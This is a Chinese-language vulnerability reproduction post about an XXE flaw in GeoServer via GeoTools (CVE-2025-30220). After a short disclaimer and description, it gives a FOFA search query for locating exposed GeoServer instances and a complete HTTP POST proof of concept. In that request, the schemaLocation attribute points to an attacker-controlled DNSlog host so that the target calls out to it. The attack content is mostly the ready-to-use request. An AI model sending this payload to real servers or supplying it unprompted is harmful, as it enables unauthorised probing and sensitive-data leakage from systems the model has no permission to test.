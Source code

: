 #  漏洞复现 || GeoServer XXE漏洞 (CVE-2025-30220)  
韩文庚  我爱林   2025-06-25 10:18  
  
## 免责声明  
  
**我爱林攻防研究院的技术文章仅供参考，****任何个人和组织使用网络应当遵守宪法法律，遵守公共秩序，尊重社会公德，不得利用网络从事危害国家安全、荣誉和利益****，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。本文所提供的工具仅用于学习，禁止用于其他！！！**  
## 漏洞描述  
  
       GeoServer是一个遵循OGC开放标准的开源WFS-T和WMS服务器，攻击者可构造恶意请求触发XXE漏洞，造成敏感信息泄漏。漏洞根源在于Geotools，因此 GeoServer与GeoNetwork  均受影响。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/JibM0LyR9LlNormkqJlwck6Iqhr2AbIAq5AxqyGweTe1U1y5RaUM6c7ZC4sicbibHP3Tba8MQULsgqdghibNHPYsxQ/640?wx_fmt=png&from=appmsg "")  
## 资产确定  
```
fofa： app="GeoServer"
```  
## 漏洞复现  
  
1.利用如下PO  
C请求Dnslog得到响应  
```
POST /geoserver/wfs HTTP/1.1
Host: {{hostname}}
User-Agent: Mozilla/5.0 (Fedora; Linux x86_64; rv:121.0) Gecko/20100101 Firefox/121.0
Connection: close
Content-Length: 353
Content-Type: application/xml
Accept-Encoding: gzip

<wfs:GetFeature service="WFS" version="1.0.0"
xmlns:wfs="http://www.opengis.net/wfs"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns:topp="http://www.openplans.org/topp"
xsi:schemaLocation="http://a http://Dnslog地址替换/xxe.xsd"
outputFormat="KML">
<wfs:Query typeName="topp:states"/>
</wfs:GetFeature>
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/JibM0LyR9LlNormkqJlwck6Iqhr2AbIAq1U4FFUXIGCCtmWERRnzkDfr11riaZ9LmwaywAYGjJSKnZbpsRGuBjMg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/JibM0LyR9LlNormkqJlwck6Iqhr2AbIAqtrhrav6eicArAFgvxNE0mkf0TlsplibyCoZSmicVNVuNrCUK54j9iaGGAw/640?wx_fmt=png&from=appmsg "")  
  
如有侵权，请联系删除  
  
感谢您抽出  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
.  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
.  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
来阅读本文  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
**点它，分享点赞在看都在这里**  
  

